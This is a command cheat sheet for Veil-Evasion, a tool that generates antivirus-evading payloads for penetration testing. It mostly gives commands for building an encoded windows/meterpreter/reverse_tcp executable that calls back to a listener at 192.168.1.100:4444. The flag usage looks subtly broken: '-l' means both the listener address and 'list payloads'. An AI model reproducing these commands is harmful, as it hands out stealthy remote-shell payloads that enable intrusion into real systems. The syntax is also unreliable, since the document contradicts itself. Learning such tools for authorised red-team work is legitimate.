 `Veil-Evasion` is a tool designed to generate and obfuscate payloads for use in penetration testing and red teaming engagements. It aims to evade antivirus detection and improve the stealth of payloads. Below is an overview of the common commands and options for using Veil-Evasion.

### **Veil-Evasion**

Veil-Evasion provides a framework for generating payloads that are less likely to be detected by security software.

#### **Common Commands and Options**

1. **Generate a Payload:**
   - **Description:** Generate a payload with a specified listener and obfuscation settings.
   - **Command:**
     ```bash
     veil-evasion -p <payload> -o <output_file> -l <listener> -a <arch> -e <encoder>
     ```
   - **Example:**
     ```bash
     veil-evasion -p windows/meterpreter/reverse_tcp -o payload.exe -l 192.168.1.100 -a x86 -e x86/shikata_ga_nai
     ```

   - **Explanation:**
     - `-p <payload>`: The type of payload to generate (e.g., `windows/meterpreter/reverse_tcp`).
     - `-o <output_file>`: The filename for the generated payload (e.g., `payload.exe`).
     - `-l <listener>`: The IP address and port for the listener (e.g., `192.168.1.100`).
     - `-a <arch>`: The architecture for the payload (e.g., `x86`).
     - `-e <encoder>`: The encoder used to obfuscate the payload (e.g., `x86/shikata_ga_nai`).

2. **List Available Payloads:**
   - **Description:** Display a list of available payloads that can be generated.
   - **Command:**
     ```bash
     veil-evasion -l
     ```
   - **Example:**
     ```bash
     veil-evasion -l
     ```

   - **Explanation:**
     - `-l`: Lists all available payloads in the Veil-Evasion framework.

3. **Set Payload Options:**
   - **Description:** Set specific options for a chosen payload.
   - **Command:**
     ```bash
     veil-evasion -p <payload> -o <output_file> --set <option>=<value>
     ```
   - **Example:**
     ```bash
     veil-evasion -p windows/meterpreter/reverse_tcp -o payload.exe --set LHOST=192.168.1.100 --set LPORT=4444
     ```

   - **Explanation:**
     - `--set <option>=<value>`: Sets specific options for the payload, such as `LHOST` (local host) and `LPORT` (local port).

4. **Show Payload Details:**
   - **Description:** Display details and options for a specific payload.
   - **Command:**
     ```bash
     veil-evasion -p <payload> -d
     ```
   - **Example:**
     ```bash
     veil-evasion -p windows/meterpreter/reverse_tcp -d
     ```

   - **Explanation:**
     - `-d`: Shows detailed information about the selected payload.

5. **Run Veil-Evasion in Interactive Mode:**
   - **Description:** Launch Veil-Evasion in interactive mode for interactive payload generation.
   - **Command:**
     ```bash
     veil-evasion
     ```
   - **Example:**
     ```bash
     veil-evasion
     ```

   - **Explanation:**
     - Launches Veil-Evasion in interactive mode, allowing users to select payloads and options interactively.

#### **Summary of Veil-Evasion Commands**

| **Command**                                                | **Description**                                            | **Example**                                                                                              |
|------------------------------------------------------------|------------------------------------------------------------|----------------------------------------------------------------------------------------------------------|
| `veil-evasion -p <payload> -o <output_file> -l <listener> -a <arch> -e <encoder>` | Generate a payload with specified options.                 | `veil-evasion -p windows/meterpreter/reverse_tcp -o payload.exe -l 192.168.1.100 -a x86 -e x86/shikata_ga_nai` |
| `veil-evasion -l`                                          | List all available payloads.                              | `veil-evasion -l`                                                                                       |
| `veil-evasion -p <payload> -o <output_file> --set <option>=<value>` | Set specific options for a payload.                        | `veil-evasion -p windows/meterpreter/reverse_tcp -o payload.exe --set LHOST=192.168.1.100 --set LPORT=4444` |
| `veil-evasion -p <payload> -d`                             | Show details and options for a specific payload.           | `veil-evasion -p windows/meterpreter/reverse_tcp -d`                                                    |
| `veil-evasion`                                             | Run Veil-Evasion in interactive mode.                       | `veil-evasion`                                                                                           |

Veil-Evasion is a powerful tool for creating obfuscated payloads that are less likely to be detected by traditional antivirus software. It is widely used in penetration testing and red teaming to enhance stealth and effectiveness.